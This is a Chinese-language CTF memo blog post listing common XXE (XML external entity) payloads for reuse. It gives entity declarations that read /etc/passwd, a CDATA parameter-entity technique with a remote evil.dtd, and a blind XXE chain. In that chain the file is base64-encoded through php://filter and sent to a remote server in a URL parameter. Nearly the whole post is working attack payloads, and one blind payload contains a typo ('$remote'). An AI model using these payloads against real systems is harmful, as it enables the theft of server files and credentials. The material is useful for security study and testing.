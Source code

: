 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-08-27T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['web','CTF笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 xxe

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## blind xxe

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
$remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```